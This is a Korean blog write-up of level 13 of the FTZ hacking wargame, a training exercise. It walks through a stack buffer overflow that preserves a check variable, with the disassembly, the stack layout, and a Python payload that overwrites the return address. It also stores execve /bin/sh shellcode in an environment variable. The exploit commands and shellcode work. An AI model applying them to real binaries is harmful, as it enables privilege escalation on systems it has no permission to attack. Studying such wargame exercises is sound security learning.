 ```yaml
---
title:  "[FTZ] level 13"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-17 23:52:40

---
```


# level 13

**level13 / have no clue**

힌트

![image](https://user-images.githubusercontent.com/69203345/146544043-462d8911-ca49-4a67-b3c4-314b640bcaae.png)

생긴걸 보아하니 이전 문제처럼 bof이용 해주면 될듯  
그래도 급하게 할 필요 없기 때문에 코드부터 봅시다

i가 buf보다 먼저 선언됐으므로 i의 시작주소가 buf보다 높다.

4바이트 정수형 변수 i에 0x1234567을 저장  
문자형 buf에는 1024사이즈 할당  0x1234567을 할당  
3094는 level13의 PID  
argv에 할당받은 입력이 한개를 넘으면 if수행  
argv[1] 을 buf에 복사

변수 i값이 아니라면 if수행  
print 수행후 프로그램 종료  

/tmp 폴더로 복사해서 gdb로 열기

![image](https://user-images.githubusercontent.com/69203345/146546755-d6a68c12-7746-4569-88f6-b812816bfe54.png)

올게 왔다

0x080484a3 <main+3>:    sub    esp,0x418

0x418을 10진수로 바꾸게 되면 1048이 나오고  
stack에 1048byte의 영역을 할당

0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12], 0x1234567

i의 시작위치 = ebp -12
i에게 12바이트를 할당 했는데 i는 long형태로 4바이트만 차지하고,나머지 8바이트는 dummy

0x080484b0 <main+16>:   sub    esp,0x8

스택에 총 8byte를 할당합니다. 이번문장은 dummy를 의미함

0x080484dd <main+61>:   call   0x8048390  <strcpy>

buf의 시작 위치는 ebp - 1048입니다

낮은주소

buf[1024] [ebp-1048]
dummy[12]
i[4] [ebp-12]
dummy[8]
sfp[4]
ret[4]

높은주소

buf의 주소는 ebp-1048이고  
i의 주소는 ebp-12이므로  
1048에서 1024를 채운후 i(ebp-12)와의 빈 공간은 dummy(12)로 한다


>참고  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.

그러면 buf[1024] 와 dummy[12]를 A로 채워주고, i를 01234567로 채워주고, dummy[8]과 SFP[4]를 다시 A로 채워주고 리턴주소를 덮어주면 될 것 같습니다.
 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"RETN"'`

 이 될것이다

 이제 그럼 환경변수를 등록
 > export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>echo 'int main(){printf("ADDR->0x%x\n",getenv("EGG"));}'> getenv.c

 ./getenv를 실행시켰을 때 나오는 ADDR이 페이로드를 구성할 때 return 부분에 들어가는 주소

 ![image](https://user-images.githubusercontent.com/69203345/146562331-92c66527-4c2f-4df1-b9c0-7fac299c986a.png)

 주소는 0xbffffc9a  
 따라서

 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x9a\xfc\xff\xbf"'`

 ![image](https://user-images.githubusercontent.com/69203345/146562690-810c0b72-a44b-4be7-9dde-91d61da607d9.png)

 풀면 풀수록 감이 온다..!
